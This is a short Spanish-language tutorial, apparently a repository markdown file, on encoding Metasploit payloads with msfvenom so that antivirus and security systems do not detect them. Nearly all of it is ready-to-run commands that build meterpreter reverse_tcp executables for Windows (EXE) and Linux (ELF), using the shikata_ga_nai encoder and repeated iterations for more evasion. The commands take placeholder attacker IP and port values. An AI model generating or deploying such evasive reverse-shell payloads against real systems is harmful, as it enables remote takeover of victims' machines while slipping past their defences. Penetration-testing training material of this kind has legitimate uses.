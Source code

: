# Codificación de Cargas Útiles con `msfvenom`

## ¿Qué es la codificación de payloads?

Codificar un payload significa aplicar técnicas de ofuscación para evitar su detección por antivirus o sistemas de seguridad.  
No cambia su funcionalidad, solo su representación en binario.

Metasploit incluye varios encoders que transforman el código del payload para hacerlo más difícil de detectar.

---

## Listar encoders disponibles

```bash
msfvenom --list encoders
```

Algunos encoders comunes:
- `x86/shikata_ga_nai`: encoder polimórfico muy usado para Windows.
- `cmd/echo`, `cmd/generic_sh`, `x64/xor`: para otros entornos o arquitecturas.

---

## Codificar un payload para Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO> -e x86/shikata_ga_nai -f exe > payload_win.exe
```

### Explicación:
- `-e x86/shikata_ga_nai`: selecciona el encoder.
- `-f exe`: formato de salida como ejecutable Windows.
- `>`: redirige el payload a un archivo.

---

## Aplicar múltiples iteraciones de codificación

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO> -e x86/shikata_ga_nai -i 10 -f exe > payload_encoded.exe
```

### Explicación adicional:
- `-i 10`: número de iteraciones del encoder (mayor número = más ofuscación).
- Más iteraciones pueden aumentar la evasión, pero también el tamaño y posibles fallos de ejecución.

---

## Codificar un payload para Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO> -e x86/shikata_ga_nai -i 5 -f elf > payload_linux.elf
```

- Codifica un payload para Linux usando el mismo encoder (válido para x86).
- `-f elf`: formato de salida ELF, ejecutable estándar en Linux.



